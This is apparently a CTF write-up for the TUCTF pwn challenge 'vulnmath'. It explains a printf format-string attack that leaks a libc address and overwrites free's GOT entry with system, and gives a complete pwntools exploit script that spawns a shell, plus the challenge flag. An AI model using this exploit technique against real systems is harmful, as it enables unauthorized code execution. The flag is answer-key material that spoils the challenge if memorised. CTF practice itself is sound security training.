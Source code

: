 # vulnmath

## PWN - Points: 500

> Enter the belly of the beast and emerge victorious.
>
> 
>
> nc chal.tuctf.com 30502
>
> [vulnmath](vulnmath)
>

Exploit format strings with `printf` and leak a pointer to `libc` and overwrite the `GOT` entry of `free` with `system` function byte-by-byte with four format strings.

Exploit script:

```python
from pwn import *


libc = ELF('libc.so.6')
e = ELF('vulnmath')

# context.terminal = ['termite', '-e']
# p = gdb.debug('./vulnmath')
# p = process('vulnmath')
p = remote('chal.tuctf.com', 30502)

p.sendlineafter('> ', '%23$x')
print p.recvline()

libc_base = int(p.recvline()[:-1], 16) - 0x1EFB9
log.info('libc base: {}'.format(hex(libc_base)))
system = libc_base + libc.symbols['system']

payload = fmtstr_payload(6, {e.got['free']: system & 0xFF}, write_size='int')
p.sendlineafter('> ', payload)

payload = fmtstr_payload(6, {e.got['free']+1: system >> 8 & 0xFF}, write_size='int')
p.sendlineafter('> ', payload)

payload = fmtstr_payload(6, {e.got['free']+2: system >> 16 & 0xFF}, write_size='int')
p.sendlineafter('> ', payload)

payload = fmtstr_payload(6, {e.got['free']+3: system >> 24 & 0xFF}, write_size='int')
p.sendlineafter('> ', payload)

p.sendlineafter('> ', 'sh\x00')

p.interactive()
```

flag: `TUCTF{I_w45_w4rn3d_4b0u7_pr1n7f..._bu7_I_d1dn'7_l1573n}`